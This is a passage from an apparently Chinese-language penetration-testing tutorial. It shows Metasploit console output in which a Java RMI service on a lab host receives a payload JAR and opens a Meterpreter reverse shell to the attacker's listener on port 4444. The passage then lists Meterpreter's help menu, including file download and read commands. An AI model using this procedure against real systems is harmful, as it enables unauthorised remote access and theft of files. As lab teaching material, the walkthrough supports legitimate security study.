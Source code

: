 ```
[*] 172.16.1.96:1099 - Replied to request for payload JAR
[*] Sending stage (53859 bytes) to 172.16.1.96
[*] Meterpreter session 2 opened (172.16.1.253:4444 -> 172.16.1.96:56079) at 2018-06-06 14:47:32 +0800
[*] 172.16.1.96:1099 - Server stopped.

meterpreter > 

```
5 可以看到成功返回一个Meterpreter，使用"help"查看Meterpreter命令选择项
```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Drop into irb scripting mode
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
```